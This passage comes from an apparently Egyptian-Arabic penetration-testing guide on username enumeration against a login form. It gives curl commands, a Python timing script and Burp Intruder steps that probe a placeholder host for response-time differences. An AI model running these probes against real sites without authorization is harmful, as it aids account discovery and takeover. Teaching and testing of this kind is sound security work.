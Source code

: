 - **الأوامر**:
  - cURL:
    ```bash
    curl -X POST -H "Content-Type: application/json" -d '{"username":"randomuser123","password":"test"}' https://target.com/api/login
    curl -X POST -H "Content-Type: application/json" -d '{"username":"admin","password":"test"}' https://target.com/api/login
    ```
  - Burp Intruder: استخدم قائمة أسماء مستخدمين وحلل الردود.

---

#### **المحاولة الخامسة: اختبار التوقيت (Timing-Based Enumeration)**
**الهدف**: نشوف إذا كان الموقع بيستغرق وقت أطول في معالجة أسماء مستخدمين موجودة مقارنة بغير الموجودة.
- **الخطوات**:
  1. استخدم أداة زي Burp Suite أو سكربت Python عشان ترسل طلبات تسجيل دخول بأسماء مستخدمين مختلفة.
  2. قيس وقت الرد (Response Time) لكل طلب باستخدام أدوات زي `curl` مع `--write-out` أو Burp Suite.
  3. جرب اسم مستخدم عشوائي (مثل `randomuser123`) واسم متوقع (مثل `admin`).
  4. لو فيه فرق واضح في وقت الرد (مثل 200ms لاسم موجود مقابل 50ms لاسم غير موجود)، يبقى فيه ثغرة.
  5. كرر الاختبار كذا مرة عشان تتأكد من النتايج وتتجنب تأثير الشبكة.
- **البيانات اللي هنجربها**:
  - أسماء مستخدمين: `randomuser123`، `admin`، `user`، `test`
- **النتيجة المتوقعة**:
  - نجاح: وقت رد أطول لأسماء موجودة، يعني الموقع بيعمل فحص إضافي.
  - فشل: وقت الرد ثابت تقريبًا، يعني الموقع محمي.
- **الأدوات**:
  - **cURL**:
    ```bash
    curl -w "Time: %{time_total}s\n" -X POST -d "username=randomuser123&password=test" https://target.com/login
    curl -w "Time: %{time_total}s\n" -X POST -d "username=admin&password=test" https://target.com/login
    ```
  - **Python Script** (باستخدام `requests`):
    ```python
    import requests
    import time

    url = "https://target.com/login"
    users = ["randomuser123", "admin", "user"]

    for user in users:
        start = time.time()
        response = requests.post(url, data={"username": user, "password": "test"})
        end = time.time()
        print(f"User: {user}, Time: {end - start:.3f}s, Response: {response.text[:50]}")
    ```
  - **Burp Suite**: استخدم Intruder وقيس وقت الرد في عمود Response Time.
- **الأوامر**:
  - cURL:
    ```bash
    curl -w "Time: %{time_total}s\n" -X POST -d "username=randomuser123&password=test" https://target.com/login
    curl -w "Time: %{time_total}s\n" -X POST -d "username=admin&password=test" https://target.com/login
    ```
  - Python: `python timing_enumeration.py` (احفظ السكربت فوق).

---